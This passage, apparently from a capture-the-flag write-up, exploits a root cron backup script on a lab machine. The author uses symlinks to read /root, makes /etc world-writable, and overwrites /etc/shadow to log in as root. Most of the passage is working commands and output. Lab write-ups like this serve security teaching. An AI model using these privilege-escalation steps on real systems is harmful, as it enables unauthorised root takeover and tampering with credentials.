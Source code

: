 The backup script that runs as root is located in `/usr/bin/backup.sh`:
```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

We can get the root flag by replacing the `courses` directory with a symlink to `/root`, waiting for the next archive to be created then untar it to retrieve the root flag:
```
giovanni@teacher:~/work$ mv courses test
giovanni@teacher:~/work$ ln -s /root courses
[ ... wait a minute ...]
giovanni@teacher:~/work/tmp/courses$ cat root.txt
cat root.txt
4f3a8...
```

The cronjob changes the permissions to 777 when it extracts the backup archive. If we swap the `courses` directory in the `~/work/tmp` folder with a symlink to `/etc` it'll change the permissions of `/etc` and everything in it to 777:
```
giovanni@teacher:~/work/tmp$ rm -rf courses
giovanni@teacher:~/work/tmp$ ln -s /etc courses

giovanni@teacher:~/work/tmp$ ls -l / | grep etc
ls -l / | grep etc
drwxrwxrwx 85 root root  4096 Apr 18 21:55 etc
```

Now that we have complete read-write access to anything in `/etc` we can change the password of the root user to anything we want:
```
giovanni@teacher:/etc$ mkpasswd -m sha-512 yolo1234
$6$jfdDr.oQ3xp6H/Em$iIPF1i31pZ/SeZe31/LDhruZFflDbmiFdsln.BA2w./lOtMUHMZYLOwsPAJaufSB4/Sn/gNIwZMWquEGR.sh1/
```

After editing the `/etc/shadow` file we can log in as root:
```
giovanni@teacher:/etc$ su -l root
Password: 
root@teacher:~# id
uid=0(root) gid=0(root) groups=0(root)
```
